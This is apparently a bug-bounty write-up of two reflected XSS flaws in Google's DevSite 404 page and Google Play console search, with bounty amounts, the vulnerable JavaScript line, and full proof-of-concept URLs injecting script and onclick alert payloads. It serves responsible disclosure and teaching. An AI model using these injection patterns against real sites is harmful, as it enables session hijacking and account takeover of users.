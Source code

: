 ```yaml
---
title: Google XSS
---
```


# Google DevSite XSS (cloud.google.com, developers.google.com) $3133.70
Due to a vulnerability in the server-side implementation of ```<devsite-language-selector>``` part of the URL was reflected as html so it was possible to get XSS on the origins using that component from the 404 page.  
This was found using [DalFox](https://dalfox.hahwul.com/docs/home/) which kept finding the same bug due to it being the "not found" page.  

https://developers.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
https://cloud.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
  
# Google Play XSS (play.google.com)  $5000
On the search page of google play console vulnerable code was run when the search resulted in an error.  
Getting an error was simple as doing ```/?search=&``` and because ```window.location``` includes the hash which never encodes ```'``` it’s possible to escape the href context and set other html attributes, unlike the DevSite XSS this is prevented by the CSP but was still awarded more by the panel.  
```js
b.innerHTML = b.innerHTML.replace(/({query})/g, "<a href='" + window.location + "'>" + a.g + "</a>");
```
https://play.google.com/console/about/search-results/?search=&#'onclick=alert(document.domain)//

The writeups are referenced on [PortSwigger](https://portswigger.net/daily-swig/xss-vulnerabilities-in-google-cloud-google-play-could-lead-to-account-hijacks)

